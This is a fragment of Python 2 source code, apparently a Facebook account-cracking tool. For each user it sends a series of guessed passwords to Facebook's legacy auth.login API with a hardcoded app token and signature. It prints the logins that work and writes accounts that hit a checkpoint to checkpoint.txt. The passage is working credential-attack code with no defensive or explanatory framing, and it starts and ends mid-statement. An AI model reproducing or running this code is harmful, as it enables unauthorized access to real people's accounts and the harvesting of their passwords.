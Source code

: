								if "www.facebook.com" in q3["error_msg"]:
									print "[Checkpoint] " + user + " | " + pass3
									cps = open("checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									data4 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q4 = json.loads(data4.text)
									if "access_token" in q4:
										print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass4
										oks.append(user+pass4)
									else:
										if "www.facebook.com" in q4["error_msg"]:
											print "[Checkpoint] " + user + " | " + pass4
											cps = open("checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
										else:
											data5 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q5 = json.loads(data5.text)
											if "access_token" in q5:
												print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass5
												oks.append(user+pass5)
											else:
												if "www.facebook.com" in q5["error_msg"]:
													print "[Checkpoint] " + user + " | " + pass5
													cps = open("checkpoint.txt", "a")
													cps.write(user+"|"+pass5+"\n")
													cps.close()
													cpb.append(user+pass5)
												else:
													data6 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q6 = json.loads(data6.text)
													if "access_token" in q6:
														print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass6
														oks.append(user+pass6)
													else:
														if "www.facebook.com" in q6["error_msg"]:
															print "[Checkpoint] " + user + " | " + pass6
															cps = open("checkpoint.txt", "a")
															cps.write(user+"|"+pass6+"\n")
															cps.close()
															cpb.append(user+pass6)
														else:
															data7 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q7 = json.loads(data7.text)
															if "access_token" in q7:
																print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass7
																oks.append(user+pass7)
															else:
																if "www.facebook.com" in q7["error_msg"]:
																	print "[Checkpoint] " + user + " | " + pass7
																	cps = open("checkpoint.txt", "a")
																	cps.write(user+"|"+pass7+"\n")